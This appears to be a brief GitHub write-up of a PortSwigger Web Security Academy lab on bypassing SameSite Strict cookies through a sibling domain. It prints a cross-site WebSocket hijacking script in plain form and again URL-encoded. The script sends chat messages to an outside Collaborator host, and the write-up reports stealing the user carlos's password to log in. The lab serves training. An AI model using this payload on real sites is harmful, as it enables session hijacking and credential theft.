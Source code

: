  # Lab: SameSite Strict bypass via sibling domain #

 ## Lab Description ##

 ![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/c11e0223-365c-4491-95b5-ab119975a9d1)

> For this we use collobaroter Give this script in exploit server 
```
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://wggfjewtkdg1hztkfr9byljvcmid63us.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/481c6c6d-5465-407b-ac7b-6ec39ee30434)

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/d9a8f51b-f211-4906-95d2-a74248172f6f)

> We url encode the earlier script
```
  %3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%31%39%30%30%63%62%30%34%33%37%31%61%64%37%38%31%61%63%33%65%37%63%30%30%62%63%30%30%61%30%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%77%67%67%66%6a%65%77%74%6b%64%67%31%68%7a%74%6b%66%72%39%62%79%6c%6a%76%63%6d%69%64%36%33%75%73%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

> The we change the script and deliver using the exploit server

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/09086283-7b65-4ce2-b345-0c7791c152a3)

> We got the password of carlos and we logged in 

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/4dff8c68-dda2-47cf-9f89-89809fec7c98)

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/a24de4b0-7a92-4cb1-ae78-0c4cce8b7ba2)
